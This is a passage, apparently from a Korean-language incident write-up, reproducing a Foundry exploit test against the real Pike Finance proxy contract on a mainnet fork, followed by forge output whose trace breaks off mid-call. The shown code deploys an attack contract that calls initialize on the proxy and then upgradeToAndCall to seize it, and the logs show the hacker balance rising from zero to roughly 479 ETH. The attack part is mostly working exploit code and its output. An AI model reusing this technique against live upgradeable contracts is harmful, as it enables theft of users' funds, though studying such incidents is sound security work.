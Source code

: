 ```solidity
    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth", blocknum);
        
        // hacker 생성
        hacker = payable(vm.addr(0x1));
        vm.label(hacker, "hacker");
        vm.label(0xFC7599cfFea9De127a9f9C748CCb451a34d2F063, "PikeFinanceProxy");
        vm.deal(hacker, 0);
    }

    function testExploit() public {
        vm.startPrank(hacker);
        console.log("Before Hacker balance: ", hacker.balance);

        // 공격 수행
        attackcontractInstance = new AttackContract(hacker, PikeFinanceProxy);
        attackcontractInstance.attack();

        console.log("After Hacker balance: ", hacker.balance);
        vm.stopPrank();
    }
}
```

실행 결과

```bash
➜  PikeFinance_2024-04 git:(master) ✗ forge test --mc Exploit -vvvv
[⠊] Compiling...
[⠘] Compiling 1 files with Solc 0.8.15
[⠃] Solc 0.8.15 finished in 1.72s
Compiler run successful!

Ran 1 test for test/PikeFinance.t.sol:Exploit
[PASS] testExploit() (gas: 343691)
Logs:
  Before Hacker balance:  0
  After Hacker balance:  479393838338750964434

Traces:
  [343691] Exploit::testExploit()
    ├─ [0] VM::startPrank(hacker: [0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf])
    │   └─ ← [Return] 
    ├─ [0] console::log("Before Hacker balance: ", 0) [staticcall]
    │   └─ ← [Stop] 
    ├─ [214630] → new AttackContract@0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4
    │   └─ ← [Return] 849 bytes of code
    ├─ [61611] AttackContract::attack()
    │   ├─ [40247] PikeFinanceProxy::initialize(AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], 20, 20)
    │   │   ├─ [35325] 0xb30c120Eb92c120bF11B358b4B9961E6679b6ae7::initialize(AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], 20, 20) [delegatecall]
    │   │   │   ├─ emit Initialized(: 1)
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Return] 
    │   ├─ [17020] PikeFinanceProxy::upgradeToAndCall(AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], 0x51cff8d90000000000000000000000007e5f4552091a69125d5dfcb7b8c2659029395bdf)
    │   │   ├─ [16604] 0xb30c120Eb92c120bF11B358b4B9961E6679b6ae7::upgradeToAndCall(AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], 0x51cff8d90000000000000000000000007e5f4552091a69125d5dfcb7b8c2659029395bdf) [delegatecall]
```